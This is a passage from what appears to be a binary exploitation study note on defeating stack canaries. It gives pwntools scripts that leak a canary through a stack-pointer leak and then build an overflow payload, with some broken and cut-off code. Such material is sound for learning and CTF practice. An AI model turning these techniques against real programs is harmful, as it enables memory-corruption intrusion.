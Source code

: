 ```python

'''
##############################################################################

s1 = b'1234'            # identified / leaked canary
padding = b'A' * 141
payload = padding + s1  # <-- '1234'

r.sendline(payload)
r.interactive()
```
#### GCC Like Stack Canaries

+ Given a compiler implemented stack canary like that of GCC only two options are really available 
    + Bruteforce/Guess: Feasible on 32bit systems, much harder on 64bit architectures 
    + Leak: Some function that prints stack address values, [format string exploits](../../../Format%20Strings/Format%20Strings.md)

+ If we can do this then we need only overwrite the stack canary with the correct value in our payload on the way past and then replace the return pointer with one of our choosing

```python
# example given memory leak function (a) and a win function
 proc = process('./<binary>)

CANARY_OFFSET = <calculated-offset>

print(proc.recvuntil('stack pointer '))

stack_ptr = proc.recvuntil('\n').strip(b'\n')
packed_stack_ptr = p32(int(stack_ptr, 16) + CANARY_OFFSET)
print(stack_ptr)
print(packed_stack_ptr)


'''

>-> We now need to leak the value stored at the canary's address
>-> In this case the binary provides us with a way to do this using opt b

'''

# feed it the address into buf
proc.sendline('a')
proc.recvuntil('len: ')
proc.sendline(packed_stack_ptr)

# yank the value
proc.recvuntil('quit\n')
proc.sendline('b')
proc.recvuntil(': ') # gtg
canary_value = proc.recv(4) # recive 4 bytes


# unpack the addr 
canary_value = p32(u32(canary_value))
print(f"CAN VAL :: {canary_value}")

proc.sendline('a')

proc.recvuntil('len:')

'''
>-> cyclic output yeilds 108 offset
```